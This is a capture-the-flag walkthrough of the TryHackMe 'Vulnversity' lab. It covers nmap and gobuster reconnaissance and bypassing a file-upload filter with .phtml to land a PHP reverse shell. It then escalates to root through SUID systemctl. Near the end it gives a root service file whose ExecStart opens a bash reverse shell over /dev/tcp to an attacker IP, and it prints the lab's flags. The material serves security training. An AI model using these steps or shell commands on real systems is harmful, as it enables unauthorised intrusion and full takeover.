










### Task 1 : Deploy the machine

Connect to our network and deploy this machine. If you are unsure on how to get connected, complete the [OpenVPN room](https://tryhackme.com/room/openvpn) first.

1. **Deploy the machine**

> No answer required

### Task 2 : Reconnaissance

Our first task is to scan the machine and find services that are running on various ports. For this we make use of `nmap`

Follow the write-up on "[Vulnversity](https://tryhackme.com/room/vulnversity)" for more information on the various options (flags) that are provided by nmap.

1. **There are many nmap "cheatsheets" online that you can use too.**

> No answer required

2. **Scan the box, how many ports are open?**



#### Command Options

*   **-sS :** Stealth Scan (SYN Scan)
*   **-sV :** Service Versioning
*   **-T4 :** Timing Template (Aggressive)
*   **-p- :** Scan all Ports
*   **-vv :** Very Verbose Output
*   **-oN :** Savve output in Normal Format

Looking at the scan results we can see that there are 6 services running on port 21, 22, 139, 445, 3128 and 3333.

> 6

3. **What version of the squid proxy is running on the machine?**

Looking at the output from the scan we the version of is 3.5.12

> 3.5.12

4. **How many ports will nmap scan if the flag -p-400 was used?**

*   **-p- :** All Ports
*   **-p 21,22 :** Scan ports 21 and 22
*   **-p10–100 :** Scan ports from 10 to 100
*   **-p1000- :** Scan all ports starting from 1000

From the above logic we can say that -p-400 would mean all ports till 400 (i.e. 1 to 400)

> 400

5. **Using the nmap flag -n what will it not resolve?**

Looking at the Manual for nmap we can see that -n stands for don't resolve DNS.

[nmap(1) - Linux man page](https://linux.die.net/man/1/nmap)



> DNS

6. **What is the most likely operating system this machine is running?**

Looking at the nmap scan results we can see that the services running on port 22 and port 3333 are saying that they are running on Ubuntu

**Note:** We can run an nmap scan using the -O flag (OS Detection) to find the operation system as well.

> Ubuntu

7. **What port is the web server running on?**

From the scan results we see on port 3333 there is an service (Apache httpd) that is using the HTTP protocol.

> 3333

8. **Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)**

> No answer required

### Task 3 : Locating directories using GoBuster

Since we know that there is an web server running on the system lets open the link in the browser and see what we get.


We see an website for "Vuln University". We could see if the website has an robots.txt file (which it doesn't) and look through the CSS styles sheets that are loaded to look for other pages that might be available on the website (found nothing).

Our next task should be to find hidden directories/pages on the website. For this we use `gobuster` which is an tool used to brute force the directories that could be present on a website.

Read the write-up on the "[Vulnversity](https://tryhackme.com/room/vulnversity)" page for more information on the options (flags) that are provided by gobuster and how they are used.


#### Command Options

*   **dir :** Brute Force Directories and Pages
*   **-u :** Target URL
*   **-x :** File extensions to find
*   **-w :** Wordlist to use for brute forcing
*   **-t :** Threads to use (Make brute forcing faster)

**Note:** The `2> /dev/null` at the end of the command is used to redirect any errors that might occur during the brute forcing process to the null device (NULL is an special device on Linux that will delete whatever data is sent into it)

> No answer required

2. **What is the directory that has an upload form page?**

Looking at the scan results we see that an directory called "internal" was found. When we open that path we see a page that looks like it used to upload files.



> /internal/

### Task 4 : Compromise the webserver

Lets try uploading files of various formats to see if any of they are blocked. On uploading txt files we get message "Extension not allowed".


If we have to setup an reverse shell using the upload field then we should be able to upload php files. So next lets try uploading an php file and see what output we get.


1. **Try upload a few file types to the server, what common extension seems to be blocked?**

> .php

We see that even php files are not allowed. PHP code can be saved with various file extensions like (.php3, .php4, .phtml etc.) so we could try and see if any of them can pass the filter used on the upload function.

Doing this testing manually is going to be an tedious process so for automating the process we can make use of `Burpsuite` which is can tool that lets us capture web request and manipulate its values.

> No answer required

Lets create an file that consist of all the formats that we are going to test the upload function against.


Open Burpsuite enable the Burp Proxy in the browser, upload an file and capture this request in Burp. Forward the captured request to Intruder where we can fuzz the various file extensions.

**Note:** For information on how to use Burp and the various features that are provided by the tool refer the following video.

[Burpsuite Basics (FREE Community Edition) - YouTube](https://www.youtube.com/watch?v=G3hpAeoZ4ek)


In Intruder click on "Clear" to clear all the pre-selected fields and then highlight the file format of the file in the filename field and click on "Add".


In the Payloads tabs under Payload Options upload the file that we created that consist of the formats that we want to fuzzy. Under Payload Encoding ensure to Uncheck "URL-encode these characters" fields as it will cause the "." in the file extension to be encoded. Once the settings are set click on "Start Attack"



When we look at the output of the Intruder attack we see the length of the response for the .phtml extension is smaller than the other so lets select that request and have a look at the response we see that we where able to successfully upload the file with ".phtml" extension.

3. **Run this attack, what extension is allowed?**

> .phtml

Now that we know what we can upload php files gets upload an php reverse shell script. The reverse shell script can be downloaded from the following link :

[php-reverse-shell/php-reverse-shell.php at master · pentestmonkey/php-reverse-shell · GitHub](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Download the .php script and edit the line in the file where we need to specify the IP Address of our (attacker) device and the Port Number.



Save the script with the .phtml extension and upload the file on the Upload page.


Once uploaded we need to setup and listener on our system this can be done using netcat.

```
netcat -nvlp 1234
```

Once setup visit the following link in the browser and load the script.

```
http://<ip>:3333/internal/uploads/
```





If done correctly we should get access to the system

> No answer required

5. **What is the name of the user who manages the webserver?**



> bill

6. **What is the user flag?**

> 8bd7992fbe8a6ad22a63361004cfcedb

### Task 5 : Privilege Escalation

Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).

One of the methods to achieve this is to exploit the files on the system that have the SUID bit set. Read the write-up on the "[Vulnversity](https://tryhackme.com/room/vulnversity)" page for more information or refer the link given below.

[How to Find Files With SUID and SGID Permissions in Linux](https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/)

1. **On the system, search for all SUID files. What file stands out?**



#### Command Options

*   **-type f :** Look only for files
*   **-user root :** The owner of the file should be root
*   **-perm 4000 :** The file should have at minimum the SUID bit set
*   **-exec :** Execute another command on output of find
*   **ls -l {} + :** List all the files found by find in long format ({} is placeholder for the location where the find command results will be substituted. The + at the end is used to terminate the command)

Looking at the output we see the systemctl command that is used to run various services on the system. Since this executable has the SUID bit set if we execute an command using systemctl we should get root privileges for that command.

> /bin/systemctl

Whenever we need to exploit an binary that is present on the system we should visit GTOBins to see if there is an simple way to exploit the service.

[GTFOBins](https://gtfobins.github.io/)

When we look at the systemctl binary file we can see there are instructions on how to exploit the service if the SUID bit is set.


#### Code Explained

*   Create an file with the extension .service
*   Add the information that is required to create a basic service file (Service files are files that are used by systemctl for executing various tasks on the system)
*   Execute the new service file we created by using the "link" and "enable" command provided by "systemctl"

When we look at the contents that are written into the .service file we see that there is a line called **ExecStart** that specifies what command to run when the service is started. So we can change this line to read the contents of the /root/root.txt file and save it into an file in the current working directory.

[How to create systemd service unit in Linux - Linux Tutorials - Learn Linux Configuration](https://linuxconfig.org/how-to-create-systemd-service-unit-in-linux)

[systemd unit file creating a service](https://linuxhint.com/systemd_unit_file_service/)

[Create a simple systemd service unit file and run a script on boot \| Support \| SUSE](https://www.suse.com/support/kb/doc/?id=000019672)

[Why do most systemd examples contain WantedBy=multi-user.target? - Unix & Linux Stack Exchange](https://unix.stackexchange.com/questions/506347/why-do-most-systemd-examples-contain-wantedby-multi-user-target)

First lets find out the directories on the system where we have permission to create files.


Lets use the "/var/tmp" directory for all the operations here on out.



Once we run the service we see an file is created in our current directory and when we cat its contents we are given the flag for the root user.

> a58ff8579f0a9270368d33a9966c7fd5

**Note:** An alternate approach to getting root privileges would be to create a service file that would start an reverse shell which we could connect to using a listener on our system and then capture the flag.

The script service file for this approach would look as follows:

```
[Service]Type=simpleUser=rootExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<kali-ip-address>/9999 0>&1'[Install]WantedBy=multi-user.target
```

And we could run the service file using the following commands:

```
/bin/systemctl enable /var/tmp/root.service/bin/systemctl start root
```

That's all. Happy Hacking :)